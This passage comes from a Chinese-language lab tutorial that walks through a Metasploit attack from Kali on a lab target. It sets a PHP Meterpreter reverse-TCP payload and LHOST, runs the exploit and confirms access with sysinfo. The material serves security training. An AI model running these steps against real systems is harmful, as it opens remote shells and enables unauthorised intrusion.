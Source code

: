 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964093422.png-wm)

```
# show 显示可用模块
show payloads
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964433170.png-wm)


```
# set 命令，使用 PAYLOAD 模块
set PAYLOAD php/meterpreter/reverse_tcp

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964503718.png-wm)

```
# 使用 show 命令，在进行参数查看
show options

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964653341.png-wm)

设置本地主机的 IP 地址参数 LHOST：

```
# 设置本地主机的 IP 地址参数
set LHOST 192.168.122.101
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964760386.png-wm)


### 4.2 进行渗透攻击

当进行到这步的时候，在实验楼的 Kali 的 MSF 终端中，已经设置好了所需的必要参数，接下来让我们输入渗透攻击命令即可：

```
# 使用 exploit 命令，进行渗透攻击
exploit

```
渗透成功后，你将会见到如下界面：
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964978185.png-wm)

下面让我们输入命令，验证渗透成功，在实验楼 Kali 的 MSF 终端中输入命令，如下图，查看渗透靶机的系统信息：

```
#　使用命令，查看渗透靶机的信息
sysinfo
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479965171278.png-wm)
